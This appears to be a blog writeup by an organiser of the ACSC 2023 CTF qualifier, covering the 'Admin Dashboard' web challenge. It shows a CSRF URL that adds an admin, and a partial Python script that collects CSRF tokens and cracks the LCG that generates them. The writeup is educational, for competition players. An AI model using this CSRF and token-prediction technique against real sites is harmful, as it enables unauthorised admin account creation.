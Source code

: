 ```yaml
---
layout: post
title: ACSC 2023 Writeups
subtitle: Asia Cyber Security Challenge 2023 qualifier Writeups 
katex: yes
tags: [crypto,web,pwn]
comments: true
---
```


[ACSC 2023 qualifier](https://acsc.asia/) just ended last week and I'm glad to be one of the orgainizer team! Here are the writeups for my challenges  

# Challenges
- [Admin Dashboard](#admin)
- [Merkle Hellman](#merkle)
- [Corrupted](#corrupted)
- [vaccine](#vaccine)

# Admin Dashboard {#admin}

Admin dashboard is about exploiting the CSRF bug, users can report any URL to admin and the admin bot will view it.

But got abit of twist and turn, I put the session cookie `Httponly` and `Lax` therefore `POST` method CSRF will not work. Then I purposely code the `addadmin.php` using `$_REQUEST` so it will accept any request method

Also put a [LCG](https://en.wikipedia.org/wiki/Linear_congruential_generator) to generate the CSRF token, only need 3 different token then you can find the `A` (multiplier) and `C` (increment)

My initial solution script is to use ngrok to host your server, but I realised no need a public server also possible (just submit the link to admin because GET method http://localhost/addadmin?username=pwn&password=464b833b05cc1c33402f6bfb8a41e14b&csrf-token=token)

My solution script:
```py
import requests
import re
import time
from Crypto.Util.number import *
s = requests.Session()
params = {
	"username":"test",
	"password":"test"
}
s.get("http://admin-dashboard.chal.ctf.acsc.asia/register",params=params)
s.get("http://admin-dashboard.chal.ctf.acsc.asia/login",params=params)
r = s.get("http://admin-dashboard.chal.ctf.acsc.asia/addadmin")
# Get the 3 different token
x0 = int(re.findall('value\="(.*)"',r.text)[0],16)
time.sleep(30)
r = s.get("http://admin-dashboard.chal.ctf.acsc.asia/addadmin")
x1 = int(re.findall('value\="(.*)"',r.text)[0],16)
time.sleep(30)
r = s.get("http://admin-dashboard.chal.ctf.acsc.asia/addadmin")
x2 = int(re.findall('value\="(.*)"',r.text)[0],16)

print(hex(x0),hex(x1),hex(x2))
# Calculate the value of A and C to crack the LCG
m = 0xc4f3b4b3deadbeef1337c0dedeadc0dd
a = (x2-x1)* inverse(x1-x0,m) % m
c = x1-a*x0%m
```